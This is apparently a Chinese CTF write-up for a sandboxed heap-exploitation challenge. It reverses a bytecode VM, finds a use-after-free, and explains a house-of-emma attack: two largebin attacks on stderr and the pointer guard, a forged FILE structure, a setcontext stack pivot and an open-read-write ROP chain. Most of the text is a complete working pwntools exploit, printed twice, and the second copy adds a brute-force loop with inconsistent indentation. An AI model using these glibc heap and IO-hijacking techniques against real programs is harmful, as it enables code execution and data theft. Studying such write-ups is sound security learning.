








> 讲水课，恰大米

沙箱开启，考虑orw

保护全开

## VM分析

循环输入，每次读最多0x500，每次循环分配释放0x2000空间

注意这里每次循环时的malloc,会影响后面的堆风水

### 入口函数分析

`sub_1288`处无法识别

undefine后，由gdb动调知入口在0x1289处，修复为函数

将输入的字符串指针存在`[rbp-18h]`处



随后取第一个byte，与运算0Fh，进行一个没什么用的检查，再将该值*4放入`rdx`，与一个首地址相加放入`eax`，符号拓展为`rax`（因为是负数），再与该首地址相加（`rax`为补码，实际为相减），其中算负数计算式为`hex((~0xfffffffffffff3a1&0xffffffffffffffff)+0x1)`，随后跳转到该位置



| 0     | 1     | 2     | 3     | 4     | 5         | 6     | 7     | 8     | 9     |
| ----- | ----- | ----- | ----- | ----- | --------- | ----- | ----- | ----- | ----- |
| 1488h | 13ddh | 1404h | 1428h | 144ch | 1481h     | 12dah | 130dh | 13abh | 1342h |
| fail  | add   | delet | show  | edit  | leave&ret |       |       |       |       |



连按d修复跳转表，观察补码可知为4字节一组

其实可以用ida的edit->other->specify switch idiom功能修复为switch

### add

- index 2nd byte
- size 2nd word
- 
- +4&jump to start

### delet

- index 2nd byte

- uaf

- 

- +2

### show

- index 2nd byte

- 

- +2

### edit

- index 2nd byte
- size 2nd word
- content 2nd dword, size
- 

### 利用思路

存在UAF，可多次进行largbin attack

无法改写为任意地址，无法直接house of kiwi，考虑house of emma

- 泄露libc、heap基址

- 两次largbin attack改写`stderr`和`__pointer_chk_guard`
- 合理伪造stderr与IO链
- 触发`__malloc_assert`

## 堆布局与largbin attack

### leak

```python
add(0,0x420)
add(1,0x440)
add(2,0x440)#largebins(9)->fakestderr(after attack pointerguard)
add(3,0x440)
add(5,0x430)#(7)(8)->pointer guard
add(6,0x420)
delet(0)
delet(2)
show(0)#获取libc基址
sendit()

libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8,b"\x00"))-0x1f2cc0
stderr_addr = libc_base + libc.sym['stderr']
fixed_heap_fdbk = libc_base + 0x1f30c0
setcontex61 = libc_base + 0x50bfd
point_guard = libc_base + 0x3c0740 + 0x30
log.success("libc_base = {}".format(hex(libc_base)))
log.success("stderr = {}".format(hex(stderr_addr)))
log.success("setcontex+61 = {}".format(hex(setcontex61)))
log.success("point_guard = {}".format(hex(point_guard)))
add(4,0x410)
edit(2,16,cyclic(16))
show(2)
sendit()

p.recvuntil("daaa")
heap_base = u64(p.recvn(6).ljust(8,b"\x00"))-0x880
log.success("heap0_base = {}".format(hex(heap_base)))
```

free掉任意一个unsorted bin可获取libc基址

> 问题：这里的chunk 0为什么能保持在unsorted bin中，而没有在循环开始malloc0x2000时放入large bin？
>
> 因为chunk 0和0x2000紧邻，每次完成循环都会触发合并，并在分配时被切下来

构造0<2，free掉后申请一块较小的chunk，将2放入largebin以获取heap基址

注意输出存在截断，可以先把2的fd,bk部分填满，事后记得要修复

注意largbin大小0x440~0x480为一个范围，为后续largebin attack起见，应注意预留大小

### largebin attack*2

largebin attack的利用方式：

1. 将一个较大的、largebin中的chunk的bk_nextsize覆盖为[target-0x20]
2. 将一个较小的chunk放入**同一个**largebin，触发unlink
3. 此时[target]的内容被修改为较小chunk的地址

```python
#attack stderr
payload = p64(fixed_heap_fdbk)*2 + p64(heap_base+0x880) + p64(stderr_addr-0x20)#构造的同时顺便修复
edit(2,32,payload)
delet(5)
sendit()
#attack point_guart
add(7,0x430)
payload = p64(fixed_heap_fdbk)*2 + p64(heap_base+0x880) + p64(point_guard-0x20)
edit(2,32,payload)
delet(7)
sendit()
```

将5free掉，放入largebin，打出一次attack，修改stderr

又通过7将5申请回来，（这里申请之前没有修复，导致stderr指向了2）

随后再更改2，再free掉7（5），打出第二次attack，修改point_guard

### __pointer_chk_guard

该值存在于fs:0x30

tls基址查看方式为`fsbase`或`tls`（pwngdb)，加上0x30即为guard值

也可以直接用gdb

```shell
(gdb) call arch_prctl(0x1003, $rsp - 0x8)    
$2 = 0 
(gdb) x /gx $rsp - 0x8
0x7fffffffe6e8: 0x00007ffff7fe0700   => IA32_FS_BASE
```

本地gdb调试时该值与libc偏移可能改变，调试时可以先关闭aslr

```shell
$ sudo sysctl -w kernel.randomize_va_space=0
```

### 修复largebin与准备触发__malloc_assert

```python
#largbin fix
payload = p64(heap_base+0x1120)+p64(libc_base+0x1f30c0)+p64(heap_base+0x1120)*2
edit(2,32,payload)
payload = p64(libc_base+0x1f30c0)+p64(heap_base+0x880)*3
edit(7,32,payload)
sendit()
#prepare assert
add(8,0x430)
delet(6)
add(9,0x440)
add(10,0x410)
edit(6,0x420,cyclic(0x418)+p64(0x10))
sendit()
```

先分别修补两个largebin，防止分配时发生错误

申请8填补5,申请9填补2

将最外层的chunk 6 free掉，加入unsorted bin并与top chunk合并

再申请一块略小于6的chunk 10，通过修改chunk 6的内容修改top chunk的size段

此处改为0x10使之页不对齐

后面只需要申请一个chunk就可以触发`__malloc_assert`

## 构造IO利用链

### gadget

假设我们控制了`stderr`，进入了`_IO_cookie_write`，调用函数指针`write_cb`，此时我们只能控制进入函数时的`rdi`，而控制`setcontext`需要控制rdx

碰巧有一个gadget，能够利用`rdi`控制`rdx`，还能call一个和`rdx`相关的地址



```python
gadget = libc_base + 0x0000000000146020
#mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
ret = libc_base + 0x000000000002d446
pop_rax = libc_base + 0x00000000000446c0
pop_rdi = libc_base + 0x000000000002daa2
pop_rsi = libc_base + 0x0000000000037c0a
syscall = libc_base + 0x00000000000883b6
```

### fake stderr

```python
def ROL(content, n):
	num = bin(content)[2:].rjust(64,'0')
	return int(num[n:]+num[:n],2)

#fake stderr
payload = p64(0)*3
payload += p64(0xffffffffffffffff)
payload = payload.ljust(0x78,"\x00")
payload += p64(libc_base + libc.sym['_IO_stdfile_2_lock'])
payload = payload.ljust(0xc8,"\x00")
payload += p64(libc_base + libc.sym['_IO_cookie_jumps']+0x40)
payload += p64(heap_base+0x10) #chunk 0->rdi
payload += p64(0)
payload += p64(ROL(gadget^(heap_base+0x1120),0x11))
edit(2,0xe8,payload)
sendit()
```

进入`__malloc_assert`后，利用`__malloc_assert -> __fxprintf -> __vfxprintf -> locked_vfxprintf -> __vfprintf_internal -> _IO_new_file_xsputn ( => _IO_cookie_write)`调用链

需要满足`_IO_write_ptr > _IO_write_base`，且`_lock`指向可写地址，此处直接使用原地址`_IO_stdfile_2_lock`

`vtable`需要伪造，触发IO时，原本指向`_IO_file_jumps -> __xsputn`，即`<__GI__IO_file_jumps+56>`，需要伪造为`_IO_cookie_jumps-> __write`，即`<_IO_cookie_jumps+120>`，故此处填上`_IO_cookie_jumps+0x40`

构造`__cookie`为chunk 0的地址，注意为了方便更改，地址加上0x10，之后chunk 0的用户地址会进入`rdi`

构造`cookie_write_function_t *write`处指针为gadget地址，调用时直接运行gadget，此处有加密

### rdi -> rdx

```python
#rdi->rdx
payload = p64(0)#rdi
payload += p64(heap_base + 0x1120+0x10)#rdx->chunk 5
edit(0,0x10,payload)
sendit()
```

修改chunk 0，使rdx指向chunk5

### 布置rdx附近满足setcontext

```python
#rdx->setcontext
payload = p64(0)*3 + "./flag\x00\x00"
payload += p64(setcontex61)#call [rdx+0x20]
payload = payload.ljust(0x68,"\x00")
payload += p64(heap_base + 0x1120+0x10+0x18)#rdi->./flag
payload += p64(0)#rsi->0
payload = payload.ljust(0x88,"\x00")
payload += p64(0x100)#rdx->0
payload = payload.ljust(0xa0)
payload += p64(heap_base+0x430+0x10)#rsp->chunk 1
payload += p64(ret)#rcx->ret
edit(5,0xb0,payload)
sendit()
```

根据setcontext+61，布置`rdx`周围，使寄存器满足条件

`rsp`指向chunk 1，`rcx`指向ret，将栈迁移到chunk 1上

### orw chain

```python
#orw chain
payload = p64(pop_rax)
payload += p64(2)
payload += p64(syscall)#open
payload += p64(pop_rax)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(3)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x200)
payload += p64(syscall)#read
payload += p64(pop_rax)
payload += p64(1)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x200)
payload += p64(syscall)#write

edit(1,17*8,payload)
sendit()
```

## payload

```python
#!/usr/bin/env python2
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug', terminal = ['tmux', 'new-window'])
def debug(cmd=''):
	cmd += "b *$rebase(0x1289)\nb *$rebase(0x1536)\nb *$rebase(0x15a4)\n *$rebase(0x13dd)\n"
	gdb.attach(p, cmd)
	pause()

host = ""
port = 0
p = process("./pwn")
#pt = remote(host, port)
libc = ELF('./libc.so.6')

pl = ""
tls_offset = 0x3c0740

def add(index, size):
#size(0x40f,0x500]
	global pl
	pl += p8(1)
	pl += p8(index)
	pl += p16(size)

def delet(index):
	global pl
	pl += p8(2)
	pl += p8(index)

def	show(index):
	global pl
	pl += p8(3)
	pl += p8(index)

def edit(index, size, str):
	global pl
	pl += p8(4)
	pl += p8(index)
	pl += p16(size)
	pl += str

def sendit():
	global pl
	pl += p8(5)
	p.sendlineafter("opcode\n", pl)
	pl = ""

def ROL(content, n):
	num = bin(content)[2:].rjust(64,'0')
	return int(num[n:]+num[:n],2)

add(0,0x420)
add(1,0x440)
add(2,0x440)#largebins(9)->fakestderr(after attack pointerguard)
add(3,0x440)
add(5,0x430)#(7)(8)->pointer guard
add(6,0x420)
delet(0)
delet(2)
show(0)
sendit()

libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8,b"\x00"))-0x1f2cc0
stderr_addr = libc_base + libc.sym['stderr']
fixed_heap_fdbk = libc_base + 0x1f30c0
setcontex61 = libc_base + 0x50bfd
point_guard = libc_base + tls_offset + 0x30
log.success("libc_base = {}".format(hex(libc_base)))
log.success("stderr = {}".format(hex(stderr_addr)))
log.success("setcontex+61 = {}".format(hex(setcontex61)))
log.success("point_guard = {}".format(hex(point_guard)))
add(4,0x410)
edit(2,16,cyclic(16))
show(2)
sendit()

p.recvuntil("daaa")
heap_base = u64(p.recvn(6).ljust(8,b"\x00"))-0x880
log.success("heap0_base = {}".format(hex(heap_base)))

#attack stderr
payload = p64(fixed_heap_fdbk)*2 + p64(heap_base+0x880) + p64(stderr_addr-0x20)
edit(2,32,payload)
delet(5)
sendit()
#attack point_guart
add(7,0x430)
payload = p64(fixed_heap_fdbk)*2 + p64(heap_base+0x880) + p64(point_guard-0x20)
edit(2,32,payload)
delet(7)
sendit()
#largbin fix
payload = p64(heap_base+0x1120)+p64(libc_base+0x1f30c0)+p64(heap_base+0x1120)*2
edit(2,32,payload)
payload = p64(libc_base+0x1f30c0)+p64(heap_base+0x880)*3
edit(7,32,payload)
sendit()
#prepare assert
add(8,0x430)
delet(6)
add(9,0x440)
add(10,0x410)
edit(6,0x420,cyclic(0x418)+p64(0x10))
sendit()

gadget = libc_base + 0x0000000000146020
#mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
ret = libc_base + 0x000000000002d446
pop_rax = libc_base + 0x00000000000446c0
pop_rdi = libc_base + 0x000000000002daa2
pop_rsi = libc_base + 0x0000000000037c0a
syscall = libc_base + 0x00000000000883b6

#fake stderr
payload = p64(0)*3
payload += p64(0xffffffffffffffff)
payload = payload.ljust(0x78,"\x00")
payload += p64(libc_base + libc.sym['_IO_stdfile_2_lock'])
payload = payload.ljust(0xc8,"\x00")
payload += p64(libc_base + libc.sym['_IO_cookie_jumps']+0x40)
payload += p64(heap_base+0x10) #chunk 0->rdi
payload += p64(0)
payload += p64(ROL(gadget^(heap_base+0x1120),0x11))
edit(2,0xe8,payload)
sendit()
#rdi->rdx
payload = p64(0)#rdi
payload += p64(heap_base + 0x1120+0x10)#rdx->chunk 5
edit(0,0x10,payload)
sendit()
#rdx->setcontext
payload = p64(0)*3 + "./flag\x00\x00"
payload += p64(setcontex61)#call [rdx+0x20]
payload = payload.ljust(0x68,"\x00")
payload += p64(heap_base + 0x1120+0x10+0x18)#rdi->./flag
payload += p64(0)#rsi->0
payload = payload.ljust(0x88,"\x00")
payload += p64(0x100)#rdx->0
payload = payload.ljust(0xa0)
payload += p64(heap_base+0x430+0x10)#rsp->chunk 1
payload += p64(ret)#rcx->ret
edit(5,0xb0,payload)
sendit()
#orw chain
payload = p64(pop_rax)
payload += p64(2)
payload += p64(syscall)#open
payload += p64(pop_rax)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(3)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x200)
payload += p64(syscall)#read
payload += p64(pop_rax)
payload += p64(1)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x200)
payload += p64(syscall)#write
edit(1,17*8,payload)
sendit()

#trigger assert
add(11,0x500)
sendit()

p.interactive()
```

```python
#!/usr/bin/env python2
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug', terminal = ['tmux', 'new-window'])
def debug(cmd=''):
	cmd += "b *$rebase(0x1289)\nb *$rebase(0x1536)\nb *$rebase(0x15a4)\n *$rebase(0x13dd)\n"
	gdb.attach(p, cmd)
	pause()

for x in range(0x10):
    for y in range(0x10):
		try:	
			offset = 0x300740
			tls_offset = offset
			tls_offset += x << 16
			tls_offset += y << 12
			log.success("try offset:\t" + hex(tls_offset))

			host = ""
			port = 0
			p = process("./pwn")
			#pt = remote(host, port)
			libc = ELF('./libc.so.6')

			pl = ""

			def add(index, size):
			#size(0x40f,0x500]
				global pl
				pl += p8(1)
				pl += p8(index)
				pl += p16(size)

			def delet(index):
				global pl
				pl += p8(2)
				pl += p8(index)

			def	show(index):
				global pl
				pl += p8(3)
				pl += p8(index)

			def edit(index, size, str):
				global pl
				pl += p8(4)
				pl += p8(index)
				pl += p16(size)
				pl += str

			def sendit():
				global pl
				pl += p8(5)
				p.sendlineafter("opcode\n", pl)
				pl = ""

			def ROL(content, n):
				num = bin(content)[2:].rjust(64,'0')
				return int(num[n:]+num[:n],2)

			add(0,0x420)
			add(1,0x440)
			add(2,0x440)#largebins(9)->fakestderr(after attack pointerguard)
			add(3,0x440)
			add(5,0x430)#(7)(8)->pointer guard
			add(6,0x420)
			delet(0)
			delet(2)
			show(0)
			sendit()

			libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8,b"\x00"))-0x1f2cc0
			stderr_addr = libc_base + libc.sym['stderr']
			fixed_heap_fdbk = libc_base + 0x1f30c0
			setcontex61 = libc_base + 0x50bfd
			point_guard = libc_base + tls_offset + 0x30
			log.success("libc_base = {}".format(hex(libc_base)))
			log.success("stderr = {}".format(hex(stderr_addr)))
			log.success("setcontex+61 = {}".format(hex(setcontex61)))
			log.success("point_guard = {}".format(hex(point_guard)))
			add(4,0x410)
			edit(2,16,cyclic(16))
			show(2)
			sendit()

			p.recvuntil("daaa")
			heap_base = u64(p.recvn(6).ljust(8,b"\x00"))-0x880
			log.success("heap0_base = {}".format(hex(heap_base)))

			#attack stderr
			payload = p64(fixed_heap_fdbk)*2 + p64(heap_base+0x880) + p64(stderr_addr-0x20)
			edit(2,32,payload)
			delet(5)
			sendit()
			#attack point_guart
			add(7,0x430)
			payload = p64(fixed_heap_fdbk)*2 + p64(heap_base+0x880) + p64(point_guard-0x20)
			edit(2,32,payload)
			delet(7)
			sendit()
			#largbin fix
			payload = p64(heap_base+0x1120)+p64(libc_base+0x1f30c0)+p64(heap_base+0x1120)*2
			edit(2,32,payload)
			payload = p64(libc_base+0x1f30c0)+p64(heap_base+0x880)*3
			edit(7,32,payload)
			sendit()
			#prepare assert
			add(8,0x430)
			delet(6)
			add(9,0x440)
			add(10,0x410)
			edit(6,0x420,cyclic(0x418)+p64(0x10))
			sendit()

			gadget = libc_base + 0x0000000000146020
			#mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
			ret = libc_base + 0x000000000002d446
			pop_rax = libc_base + 0x00000000000446c0
			pop_rdi = libc_base + 0x000000000002daa2
			pop_rsi = libc_base + 0x0000000000037c0a
			syscall = libc_base + 0x00000000000883b6


			#fake stderr
			payload = p64(0)*3
			payload += p64(0xffffffffffffffff)
			payload = payload.ljust(0x78,"\x00")
			payload += p64(libc_base + libc.sym['_IO_stdfile_2_lock'])
			payload = payload.ljust(0xc8,"\x00")
			payload += p64(libc_base + libc.sym['_IO_cookie_jumps']+0x40)
			payload += p64(heap_base+0x10) #chunk 0->rdi
			payload += p64(0)
			payload += p64(ROL(gadget^(heap_base+0x1120),0x11))
			edit(2,0xe8,payload)
			sendit()
			#rdi->rdx
			payload = p64(0)#rdi
			payload += p64(heap_base + 0x1120+0x10)#rdx->chunk 5
			edit(0,0x10,payload)
			sendit()
			#rdx->setcontext
			payload = p64(0)*3 + "./flag\x00\x00"
			payload += p64(setcontex61)#call [rdx+0x20]
			payload = payload.ljust(0x68,"\x00")
			payload += p64(heap_base + 0x1120+0x10+0x18)#rdi->./flag
			payload += p64(0)#rsi->0
			payload = payload.ljust(0x88,"\x00")
			payload += p64(0x100)#rdx->0
			payload = payload.ljust(0xa0)
			payload += p64(heap_base+0x430+0x10)#rsp->chunk 1
			payload += p64(ret)#rcx->ret
			edit(5,0xb0,payload)
			sendit()
			#orw chain
			payload = p64(pop_rax)
			payload += p64(2)
			payload += p64(syscall)#open
			payload += p64(pop_rax)
			payload += p64(0)
			payload += p64(pop_rdi)
			payload += p64(3)
			payload += p64(pop_rsi)
			payload += p64(heap_base + 0x200)
			payload += p64(syscall)#read
			payload += p64(pop_rax)
			payload += p64(1)
			payload += p64(pop_rdi)
			payload += p64(1)
			payload += p64(pop_rsi)
			payload += p64(heap_base + 0x200)
			payload += p64(syscall)#write

			edit(1,17*8,payload)
			sendit()

			#trigger assert
			add(11,0x500)
			sendit()
            r=p.recvuntil("flag")
			flag = r+p.recvuntil("}")
			log.success(flag)
			p.interactive()
		except:	
			p.close()

```

